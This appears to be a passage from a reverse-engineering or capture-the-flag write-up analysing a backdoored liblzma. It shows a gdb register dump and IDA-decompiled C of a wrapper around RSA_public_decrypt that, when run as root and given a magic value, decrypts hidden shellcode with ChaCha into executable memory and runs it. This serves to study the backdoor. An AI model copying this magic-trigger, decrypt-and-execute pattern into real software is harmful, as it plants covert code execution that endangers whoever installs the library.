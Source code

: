 ```
rax            0x0                 0
(gdb)
```

`rax` is obviously zero and hence the crash. Now we load `liblzma.so.5` on IDA to see what is there:
```c
__int64 __fastcall u_RSA_public_decrypt_BACKDOORED((
        unsigned int a1_flen,
        __int32 *a2_from,
        __int64 a3_to,
        __int64 a4_rsa,
        unsigned int a5_padding)
{
  const char *func; // rsi
  void *RSA_public_decrypt; // rax
  void *buf; // rax
  void (*buf_)(void); // [rsp+8h] [rbp-120h]
  __int32 a1_state[32]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 canary; // [rsp+E8h] [rbp-40h]

  canary = __readfsqword(0x28u);
  func = "RSA_public_decrypt";
  if ( !getuid() )
  {
    if ( *a2_from == 0xC5407A48 )
    {
      u_chacha_init(a1_state, a2_from + 1, a2_from + 9, 0LL);
      buf = mmap(0LL, glo_mmap_len, 7, 34, -1, 0LL);// rwx
      buf_ = (void (*)(void))memcpy(buf, glo_ciphertext, glo_mmap_len);
      u_chacha_block((unsigned __int64 *)a1_state, buf_, glo_mmap_len);// decrypt
      buf_();                                   // run
      u_chacha_init(a1_state, a2_from + 1, a2_from + 9, 0LL);
      u_chacha_block((unsigned __int64 *)a1_state, buf_, glo_mmap_len);// encrypt again
    }
    func = "RSA_public_decrypt ";               // space causes a NULL return
  }
  RSA_public_decrypt = dlsym(0LL, func);
  return ((__int64 (__fastcall *)(_QWORD, __int32 *, __int64, __int64, _QWORD))RSA_public_decrypt)(
           a1_flen,
           a2_from,
           a3_to,
           a4_rsa,
           a5_padding);
}
```

That is pretty interesting... We have a backdoor here. This function is a wrapper around
[RSA_public_decrypt](https://docs.openssl.org/master/man3/RSA_private_encrypt/). However if the 
`from` parameter starts with `0xC5407A48`, then we decrypt the shellcode located in `glo_ciphertext`
(`7F4A18CA9960h`) using [ChaCha](https://en.wikipedia.org/wiki/Salsa20), execute it and re-encrypt
it immediately. The problem is that after executing the shellcode, `func` becomes
`RSA_public_decrypt ` (note the trailing space) and the `dlsym()` call returns `NULL`.
